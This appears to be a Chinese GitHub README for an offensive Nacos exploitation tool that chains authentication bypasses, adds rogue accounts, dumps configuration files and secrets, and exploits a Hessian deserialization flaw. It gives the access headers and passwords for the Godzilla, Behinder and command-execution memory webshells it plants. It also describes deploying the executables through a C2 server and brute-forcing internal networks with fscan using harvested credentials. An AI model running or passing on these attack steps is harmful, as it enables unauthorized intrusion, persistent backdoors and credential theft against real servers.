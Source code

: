 # HKEcho Nacos快速利用工具 v0.1

注意：工具仅供学习使用，请勿滥用，否则后果自负！

```
        ~~||HKEcho Nacos快速利用工具||~~
                【*】Author：HKEcho

<*哥斯拉内存马*>
密码:pass/key
设置请求头:x-client-data:godzilla;
设置Referer:https://www.google.com/
```

工具文件夹中HKEcho_Nacos.exe，nacosleak.exe均已通过upx压缩加壳减小体积。担心后门可自行编译或前往原项目地址下载。

## 原理

本工具支持检测以下漏洞：

```
0、未授权查看用户列表

以下漏洞顺序执行直到获取到一个账号：
1、检测nacos默认口令
2、任意用户添加
3、任意用户添加UA_Bypass
4、任意用户添加末尾斜杠绕过
5、默认JWT任意用户添加
6、JWT_Secret_Key硬编码绕过
7、Identity硬编码绕过
8、QVD-2023-6271身份认证绕过
一旦某个漏洞获取账号密码后，会调用a1phaboy师傅写的nacosleak读取配置文件

9、Nacos_Jraft_Hessian反序列化漏洞
程序会调用c0olw师傅写的NacosRce打一遍Jraft_Hessian反序列化漏洞（本工具在调用这个NacosRce工具前会判断Java环境，若不存在，则告警不执行）
```

## 安装

```
pip install -r requirements.txt
```

## 食用

```
HKEcho_Nacos>python HKEcho_Nacos.py -h
* * * * * * * * * * * * * * * * * * * * * * * *
        ~~||HKEcho Nacos快速利用工具||~~
                【*】Author：HKEcho

<*哥斯拉内存马*>
密码:pass/key
设置请求头:x-client-data:godzilla;
设置Referer:https://www.google.com/
* * * * * * * * * * * * * * * * * * * * * * * *
usage: HKEcho_Nacos.py [-h] [-u URL] [-f FILENAME]

optional arguments:
  -h, --help   show this help message and exit
  -u URL       要检查漏洞的单个URL:http://127.0.0.1:8848
  -f FILENAME  批量检测,包含URL的文本文件
```

**1、单个目标检测：**

```
python HKEcho_Nacos.py -u http://192.2xx.2xx.1x:8848
```

![image-20231114180219893](https://github.com/HKEcho5213/HKEcho_Nacos/tree/main\images\image-20231114180219893.png)

**2、批量目标检测**：

新建txt文件，一行放一个Nacos的URL

```
python HKEcho_Nacos.py -f target.txt
```

![image-20231114191212752](https://github.com/HKEcho5213/HKEcho_Nacos/tree/main\images\image-20231114191212752.png)

**3、特殊场景下使用**

注意：HKEcho_Nacos.exe命令行界面在win11下图形加载正常，其余系统可能存在显示问题，不影响程序使用

上传python打包的HKEcho_Nacos.exe到C2上使用，注意，单纯上传HKEcho_Nacos.exe运行，会对内网目标nacos添加一个账号，不会对目标进行配置文件导出和检测Nacos_Jraft_Hessian反序列化漏洞。若想导出配置文件，可单独上传nacosleak.exe进行读取。

![image-20231115095419466](https://github.com/HKEcho5213/HKEcho_Nacos/tree/main\images\image-20231115095419466.png)

![image-20231115095310757](https://github.com/HKEcho5213/HKEcho_Nacos/tree/main\images\image-20231115095310757.png)

或者如下图直接将HKEcho_Nacos.exe与nacosleak.exe通过C2上传到目标服务器上同一目录下，直接执行HKEcho_Nacos.exe会自动调用nacosleak.exe

![image-20231115095608455](https://github.com/HKEcho5213/HKEcho_Nacos/tree/main\images\image-20231115095608455.png)

同理，若想检测检测Nacos_Jraft_Hessian反序列化漏洞，同理可以将NacosRce压缩后上传到目标服务器上同一目录下，不过不建议这样，NacosRce太大了。

![image-20231115100233567](https://github.com/HKEcho5213/HKEcho_Nacos/tree/main\images\image-20231115100233567.png)

## Nacos后利用

### Nacos配置文件

上述利用完成后，会在/results/ip_port/public目录下生成目标站点的配置文件，a1phaboy师傅特别将ak/sk,password关键字提取了出来：

![image-20231114183758207](https://github.com/HKEcho5213/HKEcho_Nacos/tree/main\images\image-20231114183758207.png)

我们可以在内网可以通过该密码本快速爆破，比如利用fscan等工具

```
fscan.exe -h 192.168.1.1/24 -o 192.168.1.txt -pwda 收集到的新密码 -usera 收集到的新用户
```

### Nacos Hessian 反序列化漏洞

一、冰蝎内存马：

```
1、需要设置请求头x-client-data:rebeyond
2、设置Referer:https://www.google.com/
3、路径随意
4、密码rebeyond
```

二、哥斯拉内存马：

```
1、需要设置请求头x-client-data:godzilla
2、设置Referer:https://www.google.com/
3、路径随意
4、密码是pass 和 key
```

三、CMD内存马：

```
1、需要设置请求头x-client-data:cmd
2、设置Referer:https://www.google.com/
3、请求头cmd:要执行的命令
```

#### **后渗透**

后渗透利用pap1rman师傅的哥斯拉nacos后渗透插件-postnacos

MakeToken

![250575224-7819b38c-e558-49b0-bce7-dd6d9b5a185b](https://github.com/HKEcho5213/HKEcho_Nacos/tree/main\images\250575224-7819b38c-e558-49b0-bce7-dd6d9b5a185b.png)

将生成后的token 保存进浏览器cookie 格式 token:{xxx}

![250532141-60089b8d-fa3d-4584-bc16-90dc5423d486](https://github.com/HKEcho5213/HKEcho_Nacos/tree/main\images\250532141-60089b8d-fa3d-4584-bc16-90dc5423d486.png)

**Adduser**

![250532121-2a110b94-4ff7-4c09-a456-6d090f10ac3f](https://github.com/HKEcho5213/HKEcho_Nacos/tree/main\images\250532121-2a110b94-4ff7-4c09-a456-6d090f10ac3f.png)

添加一个账号后，用nacosleak单独把配置文件读取下来。

```
nacosleak.exe -t http://192.2xx.2xx.21:8848 -u audit2 -p Password123!
```

## 测试环境

在github下载有漏洞的版本
https://github.com/alibaba/nacos/releases

![image-20231115102526342](https://github.com/HKEcho5213/HKEcho_Nacos/tree/main\images\image-20231115102526342.png)

![image-20231115102620390](https://github.com/HKEcho5213/HKEcho_Nacos/tree/main\images\image-20231115102620390.png)

## 参考链接

致谢：

https://github.com/Pizz33/nacos_vul

https://github.com/c0olw/NacosRce

https://github.com/pap1rman/postnacos
